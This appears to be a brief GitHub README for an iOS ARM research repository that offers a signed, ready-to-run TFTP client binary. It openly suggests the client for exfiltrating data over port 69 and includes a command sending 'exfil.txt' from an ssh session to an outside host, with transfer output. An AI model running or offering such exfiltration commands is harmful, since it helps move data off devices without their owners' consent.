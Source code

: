 # ios-arm-research
iOS, ARM, Research

Updated Jan 25 2021

The file named 'client' is a Binary ARM file for TFTP Command Line on iOS and its signed with my Developer ID for convenience for iOS Research

usage: ./client [-p port] [-h hostname] -f filename

Reminder: Its a TFTP CLI Executable, so you need a TFTP Server and a few other things to make it all work..

Comment: the compiled file may be really helpful since you may want to exfil via port 69.

The files in this Repo.. starting point for why you came.. refer back to that Post for the Makefile mods ... the Makefile here is for Intel Platform.. so you need to read that Post on cross compilation for client .... OR just copy the client binary..its iOS ready to run. 


Putting it all together.. 
you'll be ssh into /dev/thingy

./client -h tftp.xss.cx -p 69 -f exfil.txt

...
...
Packet '143966' sent
Packet '143967' sent
Packet '143968' sent
Packet '143969' sent
FIN '143970' sent
Goodbye




